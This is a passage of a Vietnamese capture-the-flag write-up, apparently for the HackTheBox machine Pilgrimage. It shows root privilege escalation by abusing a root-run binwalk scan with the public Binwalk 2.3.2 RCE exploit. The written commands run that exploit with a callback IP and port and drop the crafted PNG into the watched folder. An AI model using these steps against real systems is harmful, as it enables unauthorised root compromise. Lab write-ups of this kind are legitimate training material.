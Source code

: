 để từ target tải file linpeas.sh

![https://lh7-us.googleusercontent.com/_2qq7ewcWkRfoIkIgbGuUI231ufaQnkuhxDF2vaF6_TOSo2ph1NcN8jnLplK3a2r03r50mbSJW2fO_SAWQwiB2CTdvb4R2XuHQg4ViVog3dUjvAT6Q5bg2n_khMX2r-JA_wxstp8TYYW](https://lh7-us.googleusercontent.com/_2qq7ewcWkRfoIkIgbGuUI231ufaQnkuhxDF2vaF6_TOSo2ph1NcN8jnLplK3a2r03r50mbSJW2fO_SAWQwiB2CTdvb4R2XuHQg4ViVog3dUjvAT6Q5bg2n_khMX2r-JA_wxstp8TYYW)

![https://lh7-us.googleusercontent.com/tTe1-v5MIEnbhBMBgv8EEDdU400g-3zFG9uNix0ZU3shUs3-vHNRZBNcsFL6zY-BFnei5Ej4OQlS458gQ44ZFSosadyKerT9ZE9Qodh-xj_7hCdKFMDuTAg0OnZ-GP53f9a0X6ZAMysJ](https://lh7-us.googleusercontent.com/tTe1-v5MIEnbhBMBgv8EEDdU400g-3zFG9uNix0ZU3shUs3-vHNRZBNcsFL6zY-BFnei5Ej4OQlS458gQ44ZFSosadyKerT9ZE9Qodh-xj_7hCdKFMDuTAg0OnZ-GP53f9a0X6ZAMysJ)

![https://lh7-us.googleusercontent.com/E8q-z3wtmbILdpx8ggtpZ1VJ0kkXelHtZIMsOPMgezdcm8k5IXWg0V5GSCtmzxF6VcczWied1-u_4UA5M3YF1y3PN72EoFAfqeqk9RYLVD3xUgYcvNbOp7w5dEsuox9iQ4Wv1zPVwuiz](https://lh7-us.googleusercontent.com/E8q-z3wtmbILdpx8ggtpZ1VJ0kkXelHtZIMsOPMgezdcm8k5IXWg0V5GSCtmzxF6VcczWied1-u_4UA5M3YF1y3PN72EoFAfqeqk9RYLVD3xUgYcvNbOp7w5dEsuox9iQ4Wv1zPVwuiz)

tìm thấy file malwarescan.sh chạy dưới quyền root

![https://lh7-us.googleusercontent.com/gmZkO5Fm7DnkWARt-6x3KD2KAG2lYFD-s_yKys17kcEzH8M2mdh0cVRtuQNXXoG3-y6huX63lGnIYeLAdqYsuFrvMMhcfB-0rj1e5fdCgMbkA_8SQhxthuRHuhmEPZnDfnZYxO0_dP6F](https://lh7-us.googleusercontent.com/gmZkO5Fm7DnkWARt-6x3KD2KAG2lYFD-s_yKys17kcEzH8M2mdh0cVRtuQNXXoG3-y6huX63lGnIYeLAdqYsuFrvMMhcfB-0rj1e5fdCgMbkA_8SQhxthuRHuhmEPZnDfnZYxO0_dP6F)

đọc file và thấy:

script định nghĩa 1 blacklist: “Executable script” và “Microsoft executable”

sử dụng “inotifywait” để giám sát việc tạo file ở thư mục “/var/www/pilgrimage.htb/shrunk/”.

sử dụng binwalk để phân tích file

![https://lh7-us.googleusercontent.com/1d89NatCFTG_q6IMUpilXbivTIae9p4KHSF4QnSwDXhXpa3W90kC1QYIKSKiK-8mqQVFyIa--AcatBZUMoig-hfI7DdCLnTosmoEddiYvhdUWgnujpHPbSiKDG45aWuPEXpcrJOzfXeq](https://lh7-us.googleusercontent.com/1d89NatCFTG_q6IMUpilXbivTIae9p4KHSF4QnSwDXhXpa3W90kC1QYIKSKiK-8mqQVFyIa--AcatBZUMoig-hfI7DdCLnTosmoEddiYvhdUWgnujpHPbSiKDG45aWuPEXpcrJOzfXeq)

tìm poc

[Binwalk v2.3.2 - Remote Command Execution (RCE) - Python remote Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/51249)

download exploit 51249.py

![https://lh7-us.googleusercontent.com/aa7bXlH6mN3_tuauejDG7lqEYgXRD9O8hBvvE9jK2D8jRRb4klM66CNjJrTpzKINrnFPdjpgzTppB7jvhaXGtkVeV8AslMSdrzR-oi6UVxL-PqXIEu8PrDT0iKIAJ3rrsNJqlEJ6FzhC](https://lh7-us.googleusercontent.com/aa7bXlH6mN3_tuauejDG7lqEYgXRD9O8hBvvE9jK2D8jRRb4klM66CNjJrTpzKINrnFPdjpgzTppB7jvhaXGtkVeV8AslMSdrzR-oi6UVxL-PqXIEu8PrDT0iKIAJ3rrsNJqlEJ6FzhC)

![https://lh7-us.googleusercontent.com/o1ZdOmAWVGsbhB0MU5i_EkGom0sT_VlhPMva9RgP0pu0Hrjm5gcIu4WMoDojVWN-yLhiNAvyKo_ff6cYitKCHv5AFAyfmhLMHRLwAPOEBvPN78QSJeplPIOSrdR5a-gqoBDLm1y-3z4O](https://lh7-us.googleusercontent.com/o1ZdOmAWVGsbhB0MU5i_EkGom0sT_VlhPMva9RgP0pu0Hrjm5gcIu4WMoDojVWN-yLhiNAvyKo_ff6cYitKCHv5AFAyfmhLMHRLwAPOEBvPN78QSJeplPIOSrdR5a-gqoBDLm1y-3z4O)

exploit tạo ra một đường dẫn để lừa Binwalk write các tệp bên ngoài thư mục trích xuất. Binwalk viết mã bằng "/tmp/plugin" và đọc nội dung của nó trở lại biến "content". Tập lệnh xóa tệp "plugin" tạm thời và tạo một tệp mới có tên "binwalk_exploit.png" và ghi nội dung của tệp PNG đầu vào, payload tiêu đề PFS được tạo và nội dung được trích xuất từ tệp "plugin" vào đó.

tạo 1 ảnh rỗng

touch image.png

Run the exploit

python3 51249.py image.png 10.10.14.21 443

đưa image vừa được tạo bởi exploit trên đến nơi mà binwalk được thực thi image với quyền root

cp binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/

![https://lh7-us.googleusercontent.com/Lhk0ybNPBjQcnEehh8QgCNnsPC3GqjpfjbaTf6SGk_c8fPhCvF7lCNgDlkdaWTkTB0FLT3FaPvIHQPeIEL49EAWRMu1Zw39T2xQeP4Rxswf5oxSw4n-gNbmj-wTlT-Nh0S2vU-FDWUat](https://lh7-us.googleusercontent.com/Lhk0ybNPBjQcnEehh8QgCNnsPC3GqjpfjbaTf6SGk_c8fPhCvF7lCNgDlkdaWTkTB0FLT3FaPvIHQPeIEL49EAWRMu1Zw39T2xQeP4Rxswf5oxSw4n-gNbmj-wTlT-Nh0S2vU-FDWUat)